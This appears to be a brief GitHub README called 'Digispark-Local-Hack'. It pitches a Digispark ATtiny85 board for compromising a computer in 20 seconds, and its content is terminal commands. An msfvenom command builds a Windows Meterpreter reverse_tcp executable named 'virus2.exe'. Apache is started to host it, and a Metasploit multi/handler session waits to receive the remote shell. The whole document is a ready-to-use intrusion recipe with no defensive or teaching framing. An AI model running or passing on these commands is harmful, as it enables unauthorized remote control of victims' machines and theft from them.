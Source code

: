 # Digispark-Local-Hack
You can hack with Digispark Attiny85 in 20 Seconds

//////////////////////////

TERMINAL COMMANDS

//////////////////////////

FOR CREATE VIRUS:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=local ip lport=port -a x64 --platform windows -f exe -o virus2.exe

//////////////////////////

FOR START WEB SERVER:

service apache2 start

//////////////////////////

MSFCONSOLE COMMANDS:

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST local ip

set LPORT port

exploit

//////////////////////////
